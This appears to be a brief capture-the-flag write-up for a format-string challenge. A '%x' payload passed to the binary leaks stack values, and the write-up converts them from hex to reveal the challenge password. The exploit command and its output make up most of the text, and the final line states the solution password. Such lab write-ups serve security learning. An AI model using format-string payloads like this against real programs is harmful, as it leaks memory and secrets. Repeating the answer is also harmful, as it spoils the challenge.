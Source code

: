 ```c
app-systeme-ch5@challenge02:~$ ./ch5 %x%x%x%x%x%x%x%x%x%x%x%x%x%x%x
20804b160804853d9bffffd5ab7e1b679bffffc34b7fc3000b7fc3000804b16039617044282936646d617045bf000a64804861b
```

Using CyberChief to swap endian to: 
```c
16 4b 80 20 3d 85 04 08 d5 ff ff 9b 67 1b 7e ab c3 ff ff 9b 00 c3 7f 4b 00 c3 7f 0b 60 b1 04 08 44 70 61 39 64 36 29 28 45 70 61 6d 64 0a 00 bf 0b 61 48 80
```
Using Hex to text Decoder: 
```c
K =Õÿÿg~«ÃÿÿÃKÃ`±Dpa9d6)(Epamd
¿aH
```
Password is Dpa9d6)(Epamd
